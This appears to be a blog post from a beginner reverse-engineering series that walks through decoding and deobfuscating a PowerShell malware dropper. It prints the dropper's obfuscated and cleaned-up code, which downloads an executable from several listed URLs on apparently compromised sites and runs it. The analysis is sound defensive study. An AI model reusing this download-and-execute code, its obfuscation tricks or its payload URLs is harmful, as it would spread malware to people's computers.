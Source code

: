 ```yaml
---
title: Dropper analysis
---
```


Whole script was encoed in Base64. In order to decode it I used this PowerShell script:

```powershell                    
$EncodedString = get-content Base64String.txt
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($EncodedString )) | Out-File -Encoding "ASCII" Decoded.txt
```                    
                
As input the script takes the encoded string from Base64String.txt, decodes it and saves result in Decoded.txt file.

Dropper's code looked like that:

```powershell       
<# https://www.microsoft.com/ #> $Refined_Plastic_Soapzpp='Bordersodi';$realtimevfb = '126';
$invoiceoaj='framerlj';$middlewareltk=$env:userprofile+'\'+$realtimevfb+'.exe';
$back_upjvi='Berkshirekwz';$Plazakpi=.('new-'+'ob'+'ject') NEt.WebCLieNT;
$Dynamicqmb='http://www.pieceofpassion.net/0xrnl3/a27xm99fgd_on7xp-31134189/
@http://www.marketfxelite.com/wp-admin/unnJtCHk/@https://tananfood.com/wp-includes/yoclwyWE/
@http://raisabook.com/wp-content/NjBtuxBzkD/@http://biswalfoodcircle.com/vcobhlons/kaf6j_71wzkgvqso-8/'."sP`Lit"('@');
$Clubomb='Estateswjs';foreach($Music__Gamespmu in $Dynamicqmb){try{$Plazakpi."dO`wN`lOa`dfiLE"($Music__Gamespmu, $middlewareltk);
$Applicationsiqr='Grocerytiw';If ((&('Get'+'-I'+'tem') $middlewareltk)."LE`NgTh" -ge 35609) 
{[Diagnostics.Process]::"s`TARt"($middlewareltk);$transformvdp='Bedfordshirejwc';break;$Concreteija='redundantwwi'}}catch{}}
$morphtqb='Gorgeous_Fresh_Hatiqb'
```

It was also obfuscated so I deobfuscated it (here it was much simpler).

```powershell                
<# https://www.microsoft.com/ #> 
$file_name = '126';
$file_path = $ENV:USERPROFILE;
$file_full_path = $file_path + '\' + $file_name + '.exe';

$web_client = .('new-object') NET.WebClient;
$url_list = 'http://www.pieceofpassion.net/0xrnl3/a27xm99fgd_on7xp-31134189/
        @http://www.marketfxelite.com/wp-admin/unnJtCHk/
        @https://tananfood.com/wp-includes/yoclwyWE/
        @http://raisabook.com/wp-content/NjBtuxBzkD/
        @http://biswalfoodcircle.com/vcobhlons/kaf6j_71wzkgvqso-8/'."SPLIT"('@');

foreach ($url in $url_list) {
try {
    $web_client.DownloadFile($url, $file_full_path);
    If ((&('Get-Item') $file_full_path)."Length" -ge 35609) {
        [Diagnostics.Process]::"Start"($file_full_path);
        break;
    }
} catch {}
}
```   

Explanation is presented below:

1.  The result file is 126.exe, that file will be created in user home directory what is pointed by file_full_path.
2.  Then WebClient object is created which allows for sending and recieving data identified by URI identifier. ('.' is a call operator)
3.  url_list is an array which contains URI identifiers. Split function separates URIs by the '@' character and places them in the next indexes of array.
4.  In for loop WebClient object tries to download the content of 126.exe file from sites stored in url_list.
5.  After each attempt to download the content, the script checks a size of resulted file. If size of that file is greater than 35609 bytes, the file is executed.

#### Table of content:

1.  [Environment configuration](/blog/first-steps-in-re/environment-configuration)
2.  [Initial analysis](/blog/first-steps-in-re/initial-analysis)
3.  [Macro analysis](/blog/first-steps-in-re/macro-analysis)
4.  [Dropper analysis](/blog/first-steps-in-re/dropper-analysis)
5.  [Detonation](/blog/first-steps-in-re/detonation)
7.  [Domain analysis](/blog/first-steps-in-re/domain-analysis)
8.  [Detonation ver. 2](/blog/first-steps-in-re/detonation-v2)
9.  [Summary](/blog/first-steps-in-re/summary)
